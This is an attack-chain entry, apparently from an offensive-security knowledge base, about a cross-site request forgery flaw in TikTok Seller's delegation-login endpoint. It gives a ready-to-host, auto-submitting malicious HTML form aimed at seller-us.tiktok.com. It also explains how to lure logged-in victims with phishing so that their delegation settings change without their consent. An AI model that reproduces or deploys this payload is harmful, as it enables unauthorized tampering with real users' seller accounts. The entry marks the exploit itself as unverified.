

---
tags:
  - csrf
  - web-vulnerability
  - account-takeover
  - tiktok
type: attack_chain
tools: []
tactics:
  - '[[Initial Access]]'
commands: []
platforms:
  - Web
complexity: medium
procedures:
  - '[[procedures/Exploit-CSRF-in-TikTok-Seller-Delegation-Login]]'
step_count: 1
techniques:
  - '[[Exploit Public-Facing Application]]'
description: >-
  A Cross-Site Request Forgery attack targeting the TikTok Seller platform's
  delegation login endpoint, allowing unauthorized changes to account settings
  via forged requests from a victim's authenticated browser session.
skill_level: intermediate
impact_level: high
id: 28a8d255-3d90-42ab-9f24-a6214987b78a
created_at: '2025-12-14T17:27:50.430Z'
updated_at: '2025-12-14T17:27:50.430Z'
verified: false
validated: true
submitted: true
mitre_tactics:
  - '[[Initial Access]]'
mitre_techniques:
  - '[[Exploit Public-Facing Application]]'
---
# CSRF Exploitation in TikTok Seller Delegation Login for Unauthorized Account Modification

Multi-stage attack chain demonstrating a complete attack workflow.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 1 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- Web browser for testing (e.g., Chrome Developer Tools)
- Text editor to craft malicious HTML

### Target Environment

- Web platform: TikTok Seller US (seller-us.tiktok.com)
- Required services/ports: HTTPS on port 443
- Network access requirements: Internet access to the target endpoint

### Initial Access Requirements

- Victim must be authenticated (logged in) to their TikTok Seller account
- Attacker needs to deliver a malicious link or page to the victim (e.g., via phishing email or social engineering)
- No prior access to the victim's account needed beyond tricking them into interaction

## Detailed Attack Procedures

### Step 1: Forge CSRF Request to Modify Delegation Settings
procedure: [[procedures/Exploit-CSRF-in-TikTok-Seller-Delegation-Login]]

**Objective**: Trick an authenticated victim into submitting a forged request that enables or disables delegation mode on their TikTok Seller account, leading to unauthorized account setting changes.

**Instructions**: Create a malicious HTML page with an auto-submitting form targeting the vulnerable endpoint. Host it on an attacker-controlled server and lure the victim to visit it while logged into seller-us.tiktok.com. The form will automatically POST to /profile/account-setting/delegation-login without user interaction, exploiting the lack of CSRF tokens.

Example malicious HTML (save as index.html and host):

```html
<!DOCTYPE html>
<html>
<body>
  <form id="csrf-form" action="https://seller-us.tiktok.com/profile/account-setting/delegation-login" method="POST" style="display:none;">
    <input type="hidden" name="enable_delegation" value="true" />
    <!-- Adjust parameters based on observed form fields for enable/disable -->
  </form>
  <script>
    document.getElementById('csrf-form').submit();
  </script>
</body>
</html>
```

Deliver the link to the victim via email or messaging. Upon visit, the browser's existing session cookies will authenticate the request, modifying the settings.

**Expected Output**: Successful POST response from the server (e.g., 200 OK or redirect), with delegation mode changed. Verify by logging into the account and checking settings.

**Success Indicators**:
- Victim's account delegation mode is enabled/disabled without their consent
- Server logs or account audit show unexpected modification on May 26, 2023 (discovery date)
- No CSRF token validation error in response

## Attack Chain Summary

### Key Achievements

1. Unauthorized modification of sensitive account settings via forged browser request
2. Potential compromise of seller account security, enabling delegation to unauthorized users
3. Demonstration of CSRF impact on e-commerce platforms like TikTok Seller

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]

### MITRE ATT&CK Tactics

- [[Initial Access]]

---
*Last updated: 2023-05-26*
